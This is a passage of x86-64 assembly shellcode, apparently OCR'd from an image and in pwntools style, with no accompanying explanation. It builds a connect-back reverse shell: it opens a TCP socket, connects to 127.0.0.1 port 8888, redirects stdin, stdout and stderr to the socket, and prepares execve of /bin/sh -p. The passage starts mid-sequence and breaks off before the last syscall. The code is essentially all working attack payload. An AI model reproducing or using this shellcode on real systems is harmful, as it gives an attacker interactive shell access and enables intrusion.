 ```
    pop rax
    push 2 /* AF_INET */
    pop rdi
    push 1 /* SOCK_STREAM */
    pop rsi
    cdq /* rdx=0 */
    syscall
    /* Put socket into rbp */
    mov rbp, rax
    /* Create address structure on stack */
    /* push b'\x02\x00"\xb8\x7f\x00\x00\x01' */
    mov rax, 0x201010101010101
    push rax
    mov rax, 0x201010101010101 ^ 0x100007fb8220002
    xor [rsp], rax
    /* Connect the socket */
    /* call connect('rbp', 'rsp', 0x10) */
    push 0x2a /* SYS_connect */
    pop rax
    mov rdi, rbp
    push 0x10
    pop rdx
    mov rsi, rsp
    syscall
    /* dup() file descriptor rbp into stdin/stdout/stderr */
dup_3:
    /* moving rbp into rbp, but this is a no-op */
    push 3
loop_4:
    pop rsi
    dec rsi
    js after_5
    push rsi
    /* call dup2('rbp', 'rsi') */
    push 0x21 /* SYS_dup2 */
    pop rax
    mov rdi, rbp
    syscall
    jmp loop_4
after_5:
    /* execve(path='/bin///sh', argv=['sh','-p'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00', '-p\x00'] */
    /* push b'sh\x00-p\x00' */
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x702d006873
    xor [rsp], rax
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 0xb
    pop rsi
    add rsi, rsp
    push rsi /* '-p\x00' */
    push 0x10
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
```